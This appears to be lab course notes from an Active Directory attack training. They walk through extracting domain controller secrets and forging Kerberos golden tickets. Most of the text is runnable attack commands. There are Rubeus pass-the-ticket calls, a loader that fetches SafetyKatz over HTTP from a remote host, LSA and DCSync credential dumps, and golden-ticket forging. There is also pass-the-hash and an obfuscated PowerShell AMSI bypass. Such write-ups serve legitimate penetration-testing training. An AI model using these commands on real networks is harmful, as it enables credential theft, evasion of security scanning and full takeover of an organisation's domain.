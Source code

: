 # 🎟️ Extract secrets from DC, Create and use Golden Tickets

So after getting domain admin privileges, we will encode parameters as usual and run the rubeus command and ask for tgt and spawn a shell with domain admin privileges ->

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption><p>Running the rubeus command makes a shell spawn with DA privileges</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now we're going to copy Loader.exe on dcorp-dc:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
#now let's hop on the dcorp-dc machine
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13
```

<figure><img src="../../.gitbook/assets/image (1111).png" alt=""><figcaption><p>Beware the path is dcorp-dc and not dcorpdc like in the manual</p></figcaption></figure>

Now we're going to use ArgSplit on the student VM to encode `lsadump::lsa`

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

And then we will put it on the Admin instance that popped&#x20;

This will allow us to run the following command (don't forget to run a wsl python server to go and fetch the SafteyKatz exe)

```
C:\Users\Public\Loader.exe -path http://172.13.100.13:5454/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

And this will dump the hashes we need:

<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

***

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack, now try encoding `lsadump::dcsync`

And we can run the following:

```
C:\Users\Public\Loader.exe -path http://172.16.100.13:5454/SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

Now we could use the below Rubeus command to generate an OPSEC friendly command for Golden ticket.

Let's first encode "golden"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will generate a command to forge a golden ticket:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We need to add /ptt at the end of the generated command to inject it in the current process.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access dcorp-dc as admin:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

We can also use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We can see ticket is cached</p></figcaption></figure>

Here is a POC we have RCE on dcorp-dc ->

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dir \dcorp-dc\c$</p></figcaption></figure>

***

We can also use PowerShell Remoting and Invoke-Mimi.ps1 to start a process with DA privileges, we'll need to throw this from a elevated shell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'
```

And this will pop a shell:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now in the DA process ->

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n'ULl},${t'RuE} )
 exit
 Invoke-Command -FilePath .\Invoke-Mimi.ps1 -Session $sess
 Enter-PSSession $sess
 Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we are able to dump the hashes

***

Theres some other stuff in the course, go check
